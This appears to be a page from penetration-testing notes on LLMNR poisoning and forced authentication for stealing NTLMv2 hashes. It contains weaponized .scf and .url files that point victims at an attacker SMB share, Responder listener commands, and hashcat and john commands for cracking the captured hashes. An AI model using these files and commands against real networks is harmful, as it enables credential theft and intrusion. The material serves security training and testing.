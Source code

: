 ```yaml
---
description: Credential Access, Stealing hashes
---
```


# LLMNR Poisoning/Forced Authentication

## LLMNR Poisoning

Link-Local Multicast Name Resolution (LLMNR) is a protocol that is able to perform name resolution in the absence of a DNS server. When a request is made for a share such as `\\Fileshares` and the user accidently instead types `\\Filesharez` getting the share name incorrect DNS would first attempt to resolve the target share and when failing to do so (As it does not exist) It will fallback to LLMNR.

Once DNS has failed to resolve the request and LLMNR kicks in the requesting machine will send out a broadcast on the subnet asking if anyone of the other devices can connect them to the share `\\Filesharez` The attacking machine on the network will respond to the request stating that it can get them connected to the share. At this point the requesting (victim) machine will send the username and NTLMv2 hash of the account requesting the resource over to the malicious machine.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

### via SSRF

{% embed url="https://lojique.gitbook.io/proving-grounds/v/heist/web-enum/website" %}

## Forced Authentication

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication" %}

### Execution via .SCF

Place the below `.scf` file on the attacker controlled machine in a shared folder

{% code title="pwn.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\192.168.123.123\home\kali\pwn.scf
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

### Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.123.123\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

## Example

{% embed url="https://lojique.gitbook.io/proving-grounds/v/vault/other-services-enumeration/445-smb" %}

## Cracking NTLMv2

```bash
# On Kali
hashcat -m 5600 'pasted hash' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt
```

```bash
# On windows host
hashcat.exe -m 5600 hash.txt rockyou.txt -O
```

## Resources

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/llmnr" %}

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks" %}

{% embed url="https://attack.mitre.org/techniques/T1557/001/" %}
